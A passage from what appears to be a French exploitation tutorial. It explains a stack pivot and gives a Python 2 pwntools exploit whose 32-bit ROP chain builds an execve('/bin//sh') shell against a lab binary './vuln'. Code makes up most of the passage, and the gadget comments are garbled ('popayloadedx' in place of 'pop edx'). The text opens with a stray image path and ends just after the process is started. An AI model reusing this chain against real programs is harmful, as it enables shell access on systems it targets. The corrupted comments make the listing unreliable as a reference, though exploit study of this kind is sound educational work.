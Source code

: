 Cela signifie qu'entre le moment où on overflow, et le moment où on exécute l'instruction ret, la pile (enfin, notre ESP dans la pile) a été altéré.

Mais... On a ESP + 4 ? Oui. On sait faire une addition ? Oui.

<img class="img_med" src="coincidence.gif" alt="coincidence" >

Vous commencez, je l'espère, à voir où je veux en venir ? :)

On sait où stocker des bytes. On contrôle EIP vu qu'on contrôle ESP sur un ret. On connaît l'offset, et on sait comment modifier ESP pour qu'il prenne la valeur de notre choix... Yapluka !

C'est là que je nomme la technique que nous allons utiliser, le Stack Pivot !

On va faire pivoter l'exécution de notre programme, en lui faisant croire que la stack est à l'emplacement du username, que nous pouvons définir à notre guise, bien entendu.

Je passe la préparation de la ropchain car c'est exactement comme dans l'article précédent, on va tout de suite faire notre exploit :

```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

ropchain = ''
ropchain += p32(0x0806ebaa)  # popayloadedx ; ret
ropchain += p32(0x080ea340)  # @ .data
ropchain += p32(0x080bb696)  # popayloadeax ; ret
ropchain += '/bin'
ropchain += p32(0x08097276)  # mov dword ptr [edx], eax ; popayloadebx ; ret
ropchain += p32(0x41414141)  # padding
ropchain += p32(0x0806ebaa)  # popayloadedx ; ret
ropchain += p32(0x080ea344)  # @ .data + 4
ropchain += p32(0x080bb696)  # popayloadeax ; ret
ropchain += '//sh'
ropchain += p32(0x08097276)  # mov dword ptr [edx], eax ; popayloadebx ; ret
ropchain += p32(0x41414141)  # padding
ropchain += p32(0x0806ebaa)  # popayloadedx ; ret
ropchain += p32(0x080ea348)  # @ .data + 8
ropchain += p32(0x080545b0)  # xor eax, eax ; ret
ropchain += p32(0x08097276)  # mov dword ptr [edx], eax ; popayloadebx ; ret
ropchain += p32(0x41414141)  # padding
ropchain += p32(0x080481a9)  # popayloadebx ; ret
ropchain += p32(0x080ea340)  # @ .data
ropchain += p32(0x080c18cc)  # popayloadecx ; ret
ropchain += p32(0x080ea348)  # @ .data + 8
ropchain += p32(0x0806ebaa)  # popayloadedx ; ret
ropchain += p32(0x080ea348)  # @ .data + 8
ropchain += p32(0x080545b0)  # xor eax, eax ; ret
ropchain += p32(0x0807b64f) * 11 # inc eax ; ret
ropchain += p32(0x080494b1)  # int 0x80

p = process("./vuln")
p.recv()
```